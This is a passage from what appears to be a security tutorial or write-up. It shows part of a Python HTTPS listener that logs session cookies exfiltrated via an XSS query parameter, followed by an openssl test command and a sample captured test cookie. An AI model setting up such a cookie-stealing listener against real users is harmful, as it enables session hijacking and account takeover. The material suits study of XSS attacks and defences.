 ```python
       xss.write(cookie+"\r\n")  
  
  def run(server_class=http.server.HTTPServer, handler_class=S, port=443):  
    server_address = ('', port)  
    httpd = server_class(server_address, handler_class)  
    httpd.socket = ssl.wrap_socket(
      httpd.socket,
      certfile=sys.argv[1], 
      server_side=True
    )
    print('[*] Serving at '+str(server_address))
    
    try:  
      httpd.serve_forever()  
    except KeyboardInterrupt:  
      pass  
    httpd.server_close()  
  
if __name__ == "__main__":  
  if(len(sys.argv) == 2): 
    run()  
  else:  
    print("Specify cert file")  
    sys.exit(1)
```

You can then connect to it and test if it works.  

```
openssl s_client -connect localhost:443
```

[![GET /?xss=PHPSESSID=ThisIsMySessionCookieForTesting HTTP/1.1](images/testingssl.png)](images/testingssl.png "GET /?xss=PHPSESSID=ThisIsMySessionCookieForTesting HTTP/1.1") GET /?xss=PHPSESSID=ThisIsMySessionCookieForTesting HTTP/1.1
